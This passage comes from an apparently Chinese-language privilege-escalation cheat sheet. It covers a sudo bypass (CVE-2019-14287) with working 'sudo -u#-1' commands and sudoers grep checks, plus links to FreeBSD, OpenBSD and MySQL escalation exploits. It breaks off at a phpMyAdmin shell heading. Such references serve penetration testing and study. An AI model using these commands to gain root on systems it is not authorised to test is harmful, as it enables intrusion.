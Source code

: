 - 文章
    - [How to detect CVE-2019-14287 using Falco](https://sysdig.com/blog/detecting-cve-2019-14287/)
    - [CVE-2019-14287 linux sudo root 权限绕过漏洞复现](https://mp.weixin.qq.com/s/bb6Hd3JdYiLilqdP_-INtA)

- POC | Payload | exp
    ```bash
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!#0\s*)"

    sudo -u#-1 id -u
    或者:
    sudo -u#4294967295 id -u
    ```

---

# FreeBSD

**CVE-2013-2171**
- POC | Payload | exp
    - [FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation - FreeBSD local Exploit](https://www.exploit-db.com/exploits/26368)

---

# OpenBSD

**CVE-2019-19726  OpenBSD 提权**
- 简介

    OpenBSD 是加拿大 OpenBSD 项目组的一套跨平台的、基于 BSD 的类 UNIX 操作系统。

    OpenBSD 6.6 及之前版本中存在安全漏洞。本地攻击者可利用该漏洞将权限提升至 root，进而以该权限执行自己的库代码。

- 影响版本
    - Openbsd:Openbsd:-:*:*:*
    - Openbsd:Openbsd:2.0:*:*:*
    - Openbsd:Openbsd:2.1:*:*:*
    - Openbsd:Openbsd:2.2:*:*:*
    - Openbsd:Openbsd:2.3:*:*:*

- POC | Payload | exp
    - [Local Privilege Escalation in OpenBSD's dynamic loader (CVE-2019-19726)](https://www.qualys.com/2019/12/11/cve-2019-19726/local-privilege-escalation-openbsd-dynamic-loader.txt)

---

# Mysql

**文章**
- [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

**通过 phpmyadmin 来 getshell**
- 确认绝对路径
